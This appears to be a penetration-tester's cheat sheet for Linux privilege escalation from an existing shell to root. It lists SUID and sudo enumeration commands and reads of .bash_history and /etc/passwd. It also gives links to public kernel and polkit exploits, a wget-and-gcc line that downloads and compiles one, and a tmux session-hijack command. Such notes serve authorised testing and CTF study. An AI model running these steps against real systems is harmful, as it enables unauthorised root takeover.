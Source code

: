 
INPUT: Stablished shell
PROCESS:
- Privilege Escalation
    - Manual Vector Finding
        - find / -perm /4000 2>/dev/null
        - find / -type f -user root -perm -u=s 2>/dev/null
        - find / -perm -u=s -type f 2>/dev/null
        - sudo -l
        - sudo -V
        - cat .bash_history
        - cat /etc/passwd    
    - Using kit
        - [linpeas.sh] Auto Vector Finding
- Maintain Access    
TOOLS
- Exploit
- GTFOBins
- Python Library Hijacking
- Environment variables
OUPUT:
- root shell


## Exploit
[cve-2017-16995]
    wget https://www.exploit-db.com/download/45010 -O cve-2017-16995.c
    gcc --static cve-2017-16995.c -o cve-2017-16995
[CVE-2021-4034]
    https://www.exploit-db.com/exploits/50689
    https://github.com/ryaagard/CVE-2021-4034
    https://github.com/c3c/CVE-2021-4034
[CVE-2017-0143]
    https://www.exploit-db.com/exploits/43970
[CVE-2014-4014]
    https://www.exploit-db.com/exploits/33824
[GTFOBins]
    https://gtfobins.github.io/
[$PATH]
    Linux Privilege Escalation Using PATH Variable
[tmux]
    tmux -S default attach




